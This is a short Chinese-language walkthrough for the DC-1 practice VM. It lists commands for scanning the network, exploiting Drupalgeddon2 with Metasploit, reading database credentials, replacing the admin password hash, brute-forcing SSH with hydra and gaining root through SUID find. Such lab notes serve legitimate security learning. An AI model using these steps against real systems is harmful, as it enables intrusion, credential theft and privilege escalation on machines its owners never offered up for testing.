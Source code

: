 ## five86 靶机练习
### 地址
1. http://www.five86.com/

### DC-1
1. url DC-1: https://www.jianshu.com/p/b659f4619c88
2. drupal
   - http://drupalchina.cn/download
   - https://www.drupal.org/download


### step
1. 下载DC-1:VMware导入
2. nmap 或arp-scan 发现主机 192.168.221.133
   - eg:arp-scan -l
   - eg: namp -sP 192.168.221.0/24 -oN nmap.sP
3. 扫描端口
   - eg:用masscan快速扫描端口 masscan -p1-65535 192.168.221.133 --rate=1000
   - eg:nmap -A 192.168.2.195 -oN nmap_195.A
4. download drupal
5. 搜索漏洞:google,baidu
   - RCE 漏洞（名为 drupalddon2 (CVE-2018-7600)
   - CVE-2018-7600分析:http://blog.nsfocus.net/cve-2018-7600-drupal-7-x/
   - github:https://github.com/pimps/CVE-2018-7600
   - 攻击者开发利用 Drupalgeddon2 漏洞将加密货币矿工、后门程序和其他恶意软件注入网站。
   - SQL注入漏洞：https://www.freebuf.com/vuls/47271.html
   - CVE-2012-4553

6. 启动msfconsole
   - msfconsole
   - search drupal
   - use exploit/multi/http/drupal_drupageddon
   - set RHOST 192.168.221.133
   - run
   - shell
   - id
   - whoami
   - 标准shell获取:python -c "import pty;pty.spawn('/bin/bash')"

7. Drupal的默认配置文件为  /var/www/sites/default/settings.php，查看
```
$databases = array (
        'default' => 
        array (
            'default' => 
            array (
                'database' => 'drupaldb',
                'username' => 'dbuser',
                'password' => 'R0ck3t',
                'host' => 'localhost',
                'port' => '',
                'driver' => 'mysql',
                'prefix' => '',
                ),
            ),
        );

```
8. 连接MySQL 找到用户表 查找用户
   select * from users\G;
9. 发现admin用户置换密码
   - old password:$S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
   - 方法:http://drupalchina.cn/node/2128
   - php scripts/password-hash.sh admin
   - password: 123456 hash: $S$DdB6oJKULtKFyEUadFua8fODXmnwhnO9OAsWeGN7i0JFGHf.zb9H

10. 新密码登录
11. find查看有root权限应用 find / -perm -4000 2>/dev/null
12. 尝试爆破 hydra -l flag4 -P passlist.dic 192.168.221.133 ssh -o hydra.ssh -vV -f
13. find提权 find flag1.txt -exec '/bin/sh' \;
14. id查看

### help
1. https://www.jianshu.com/p/b659f4619c88
2. https://www.cnblogs.com/nanlu/p/11347438.html

